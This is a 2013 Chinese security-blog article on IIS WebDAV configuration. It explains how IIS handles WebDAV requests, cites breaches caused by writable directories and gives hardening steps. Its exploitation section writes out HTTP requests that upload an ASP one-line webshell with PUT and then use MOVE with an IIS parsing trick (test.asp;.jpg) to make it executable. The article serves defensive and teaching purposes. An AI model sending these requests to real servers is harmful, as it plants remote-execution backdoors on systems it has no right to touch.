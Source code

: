 # IIS WebDAV 安全配置

2013/07/15 16:31 | [瞌睡龙](http://drops.wooyun.org/author/瞌睡龙 "由 瞌睡龙 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章"), [运维安全](http://drops.wooyun.org/category/%e8%bf%90%e7%bb%b4%e5%ae%89%e5%85%a8 "查看 运维安全 中的全部文章") | 占个座先 | 捐赠作者

### 0x00 简介

* * *

WebDAV 是一种基于 HTTP 1.1 协议的通信协议.它扩展了 HTTP 1.1，在 GET、POST、HEAD 等几个 HTTP 标准方法以外添加了一些新的方法。

使应用程序可直接对 Web Server 直接读写，并支持写文件锁定(Locking)及解锁(Unlock)，还可以支持文件的版本控制。

IIS 实现 Webdav 是采用的其两种接口 CGI、ISAPI 的 ISAPI 接口。

但因为其没有采用影射的方式，所以 IIS 的主程序 w3svc.dll 本身包含了 Webdav 的信息。

其识别出是 Webdav 的请求后就调用 Webdav 的处理模块 httpext.dll。

对于常见几种请求方法`GET、HEAD、POST`等，因为常见一些映射都支持。

所以不能以请求方法作为 Webdav 请求的判断，w3svc.dll 就根据请求头的字段识别。

如果请求头里面包含`Translate:`、`If:`、`Lock-Token:`中的一种，就认为是 Webdav 的请求。

`Translate:`就是那个`Translate:f`的泄露源代码的一个请求头，其实设置别的两个也是一样的。

可能很多 IDS 是没有这点知识的。W3svc.dll 还内置了几个别的请求方法`TRACK`、`TRACE`等。

`TRACK`就是用于调试错误的，如果收到这样的请求头，w3svc.dll 会原样返回请求数据。

相当于我们常见的 ping.exe。

IIS 对`TRACK`请求没有进行 LOG 记录，这点我们可以用于来获得 banner。

对于 IIS 将优于大家习惯使用的`HEAD`。

如果上面的请求方法没匹配，那么 w3svc.dll 就会认为是 Webdav 的请求，交给 httpext.dll 处理了。

这些请求包含 Webdav 支持的`PROPFIND`、`PROPPATCH`、`MKCOL`、`DELETE`、`PUT`、`COPY`、`MOVE`、`LOCK`、`UNLOCK`等。

### 0x01 配置

* * *

为了安全上的考虑，IIS 默认并不会启动 WebDAV 的功能，因此必须另外来激活它。

通过启动“IIS 管理器”，展开本地计算机，选择“Web 服务扩展”，选择“允许”的途径来启动 WebDAV 功能。

开启 WebDAV 之后，IIS 就支持`PROPFIND`、`PROPPATCH`、`MKCOL`、`DELETE`、`PUT`、`COPY`、`MOVE`、`LOCK`、`UNLOCK`等方法了。

![enter image description here](img/img1_u93_jpg.jpg)

当 IIS 中的配置允许写入的时候就可以直接 PUT 文件上去，由此可能引发非常严重的安全问题，强烈建议禁制

![enter image description here](img/img2_u74_jpg.jpg)

### 0x02 危害

* * *

当开启了 WebDAV 后，IIS 中又配置了目录可写，便会产生很严重的问题。 wooyun 上由此配置产生的问题很多，并且有老外黑了一群中国政府站有一部分就是由于此配置。 危害巨大，操作简单，直接批量扫描，上传 shell。

[WooYun: 闪动科技 webserver 配置不当可取 shell](http://www.wooyun.org/bugs/wooyun-2013-018158)

[WooYun: 瑞达信息安全产业股份有限公司 IIS 写入漏洞](http://www.wooyun.org/bugs/wooyun-2011-02238)

[WooYun: 海航 webdav 漏洞导致服务器沦陷](http://www.wooyun.org/bugs/wooyun-2011-02765)

[WooYun: 阿里某邮件系统服务器配置不当](http://www.wooyun.org/bugs/wooyun-2011-03581)

[WooYun: 国家某局某文件系统存在严重安全问题](http://www.wooyun.org/bugs/wooyun-2012-05911)

[WooYun: 国内某大型风电工控系统应用配置失误](http://www.wooyun.org/bugs/wooyun-2012-06196)

### 0x03 查找存在问题的服务器

* * *

对服务器发送 OPTION 包：

```
OPTIONS / HTTP/1.1
Host: www.test.com 
```

返回响应头如下：

```
HTTP/1.1 200 OK
Server: Microsoft-IIS/6.0
X-Powered-By: ASP.NET
MS-Author-Via: DAV
Content-Length: 0
Accept-Ranges: none
DASL: <DAV:sql>
DAV: 1, 2
Public: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Allow: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Cache-Control: private 
```

当 ALLOW 中包含如上方法时，可以确定服务器开启了 WebDAV。

此时可以用 PUT 上传文件，但是不可以直接上传可执行脚本文件，可以先上传一个其他类型的文件，然后 MOVE 成脚本文件。

```
PUT /test.txt HTTP/1.1
Host: www.test.com
Content-Length: 23

<%eval request("a")%> 
```

启用了“WebDAV”扩展，并且复选了“写入”，就可以写入 txt 文件了。要想使用 MOVE 命令将其更名为脚本文件后缀，必须还复选上“脚本资源访问”。

但是发现利用 IIS 的解析漏洞，可以 MOVE 成`test.asp;.jpg`，然后就可以当做 shell 来执行了

```
MOVE /test.txt HTTP/1.1
Host: www.test.com
Destination: http://www.test.com/test.asp;.jpg 
```

有一个开源的 DAV 管理工具，使用工具直接查看：

[`www.davexplorer.org/download.html`](http://www.davexplorer.org/download.html)

### 0x03 修复方案

* * *

#### 1 禁用 WebDAV。

通常情况下网站不需要支持额外的方法，右键 WebDAV，点击禁用即可。

#### 2 如果要使用 WebDAV 的话，加上权限验证。

如果选取“脚本资源访问”，则用户将具备修改 WebADV 文件夹内的脚本文说明件(scriptfile)的功能。

除了此处的虚拟目录权限外，还需要视 NTFS 权限，才可以决定用户是否有权限来访问 WebDAV 文件夹内的文件。

WebDAV 文件夹的 NTFS 权限给予用户适当的 NTFS 权限。

首先请设置让 Everyone 组只有“读取”的权限，然后再针对个别用户给予“写入”的权限，例如我们给予用户“User”写入的权限。

选择验证用户身份的方法启动“IIS 管理器”，然后右击 WebDAV 虚拟目录，选择“属性”→“目录安全性”，单击“身份验证和访问控制”处的编辑按钮。

不要选取“启用匿名访问”，以免招致攻击。选择安全的验证方法，选择“集成 Windows 身份验证”。

![enter image description here](img/img3_u42_jpg.jpg)

参考：

[`hi.baidu.com/yuange1975/item/a836d31096b5b959f1090e89`](http://hi.baidu.com/yuange1975/item/a836d31096b5b959f1090e89)

[`www.daxigua.com/archives/1597`](http://www.daxigua.com/archives/1597)

[`www.daxigua.com/archives/2750`](http://www.daxigua.com/archives/2750)

[`www.daxigua.com/archives/2747`](http://www.daxigua.com/archives/2747)

[`blog.163.com/wfruee@126/blog/static/4116699420123261427232/`](http://blog.163.com/wfruee@126/blog/static/4116699420123261427232/)

**Tags:** [IIS](http://drops.wooyun.org/tag/iis), [服务器配置](http://drops.wooyun.org/tag/%e6%9c%8d%e5%8a%a1%e5%99%a8%e9%85%8d%e7%bd%ae)

版权声明：未经授权禁止转载 [瞌睡龙](http://drops.wooyun.org/author/瞌睡龙 "由 瞌睡龙 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：碎银子打赏，作者好攒钱娶媳妇：

![](img/img5_u108_png.jpg)

### 相关日志

*   [SVN 安装配置及安全注意事项](http://drops.wooyun.org/tips/352)
*   [Rsync 安全配置](http://drops.wooyun.org/papers/161)
*   [IIS7.5 安全配置研究](http://drops.wooyun.org/papers/1019)
*   [DNS 域传送信息泄露](http://drops.wooyun.org/papers/64)
*   [闲扯下午引爆乌云社区“盗窃”乌云币事件](http://drops.wooyun.org/papers/382)
*   [header 的安全配置指南](http://drops.wooyun.org/tips/1166)
